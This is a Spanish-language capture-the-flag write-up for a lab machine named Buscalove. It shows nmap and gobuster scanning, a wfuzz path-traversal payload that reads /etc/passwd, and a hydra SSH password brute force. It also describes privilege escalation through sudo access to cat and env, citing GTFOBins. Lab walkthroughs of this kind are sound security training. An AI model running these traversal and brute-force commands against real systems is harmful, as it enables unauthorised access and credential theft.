 # \[Fácil] Buscalove

Comenzamos con un escaneo de los puertos abiertos de nuestra maquina objetivo, para ello hacemos uso de la herramienta nmap&#x20;

```bash
nmap -Pn -p- --min-rate 3000 -sCV -n -v -o scan 172.18.0.2
```

> \-Pn ->&#x20;
>
> \-p- -> indica que el escaneo es hacia todos los puertos
>
> \--min-rate 3000 -> minimo de tiempo por paquete
>
> \-sCV -> -S ejecuta scripts por defecto de nmap. -V nos dice la version/servicio que se ejecuta en el puerto abierto&#x20;
>
> \-n -> no resuelve los DNS
>
> \-v -> parámetro verbose hace que sea visible mas información a parte del resultado.
>
> \-o -> para exportar a un fichero el resultado&#x20;

<div align="left">

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

</div>

Podemos ver el puerto 80,22 abiertos, sabiendo esto vamos a inspeccionar la pagina web, podemos empezar por hacer una fuerza bruta para averiguar directorios y ficheros disponibles con la herramienta gobuster, encontramos el directorio de wordpress.&#x20;

```bash
gobuster dir -u http://172.18.0.2:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py,sh
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

</div>

En el directorio wordpress no encuentro nada de valor, despues de investigar un poco vamos a probar con la vulnerabilidad LFI (Local File Inclusion) permitiéndonos leer archivos del servidor web a través de la URL. Para comprobarlo vamos a utilizar la herramienta wfuzz

```bash
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://172.18.0.2/wordpress/index.php?FUZZ=/../../../../../etc/passwd --hc 404 --hl 40
```

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption><p>Encontramos dos palabras y ya podemos hacer uso del exploit de LFI</p></figcaption></figure>

Una vez sabemos de los usuarios del servidor probamos con una fuerza bruta con hydra al ssh&#x20;

```
hydra -l ${usuario} -P /home/son/Downloads/rockyou.txt ssh://172.18.0.2
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption><p>Encontramos la password</p></figcaption></figure>

</div>

Una vez dentro, con el comando sudo -l descubrimos que podemos ejecutar tanto ls como cat con privilegios de administrador, podemos encontrar la ejecución de comandos con privilegios para escalar privilegios en la web de GTFO Bins

<div align="left">

<figure><img src="../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

</div>

{% embed url="https://gtfobins.github.io/gtfobins/cat/" %}

Con estos dos comandos podemos leer los ficheros, por ejemplo, dentro de la carpeta del usuario root  nos encontramos con un fichero cifrado, seguramente sea su contraseña.&#x20;

<div align="left">

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

</div>

Crackeamos el hash desde la web de cyberchef

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

La contraseña es de otro usuario que no es root, vamos a loguearnos y ejecutar sudo -l para ver que nos encontramos

<div align="left">

<figure><img src="../../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

</div>

<div align="left">

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption><p>Aprovechamos env para ejecutar una shell como root</p></figcaption></figure>

</div>

{% embed url="https://gtfobins.github.io/gtfobins/env/" %}

